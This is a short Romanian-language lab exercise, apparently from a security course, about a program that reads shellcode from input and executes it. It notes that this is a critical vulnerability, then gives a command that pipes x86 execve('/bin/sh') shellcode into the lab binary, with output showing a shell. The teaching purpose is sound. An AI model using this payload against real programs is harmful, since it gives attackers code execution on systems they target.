 # Shellcode input

Similar cu exercițiul anterior, exercițiul curent nu va mai avea inițializată variabila `shellcode`, ci o va citi ca input.

Shellcode-ul este fix același ca la exercițiul anterior.

Citirea codului `assembly` de la tastatură și execuția lui sunt considerate vulnerabilități critice.
Nu uitați acest lucru.

Pentru a exploata vulnerabilitatea, folosiți:

``` shell
cat <((echo -n "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")) - | ./shellcode-input
```

Rezultatul ar trebui să fie:

``` shell
$ cat <((echo -n "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")) - | ./shellcode-input
whoami
kali
```
